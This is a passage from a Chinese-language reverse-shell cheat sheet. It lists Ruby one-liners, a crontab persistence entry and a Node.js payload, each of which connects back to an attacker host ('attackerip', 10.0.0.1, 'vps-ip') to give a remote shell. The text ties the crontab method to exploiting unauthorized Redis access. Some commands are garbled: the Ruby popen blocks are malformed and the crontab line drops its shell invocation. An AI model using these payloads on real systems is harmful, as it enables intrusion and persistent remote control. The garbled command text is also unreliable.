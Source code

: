 ### 0x08 ruby 版本：

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

不依赖于 / bin/sh 的 shell：

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r")io|c.print io.readend'
```

如果目标系统运行 Windows：

```
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r")io|c.print io.readend'
```

### 0x09 crontab 定时任务：

这也是在 redis 未授权访问的时候使用过的。
crontab -e 编辑当前用户的任务，或者是写到计划任务目录，一般是 / var/spool/cron / 目录，ubuntu 是 / var/spool/cron/crontabs。文件名为用户名 root 等。下面命令含义是每一分钟执行一次反弹 shell 命令。具体 crontab 用法可以参考 [Crontab 定时任务配置](http://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html)



```
* * * * *  -i >& /dev/tcp/attackerip/1234 0>&1
```

最后其实发现，虽然形式不同，但是其实都是基于 / bin/bash 和 / bin/sh



### nodejs

```
global.process.mainModule.constructor._load('child_process').exec('nc vps-ip port -e /bin/sh',function(){});
```





### 0x10 参考

http://www.zerokeeper.com/experience/a-variety-of-environmental-rebound-shell-method.html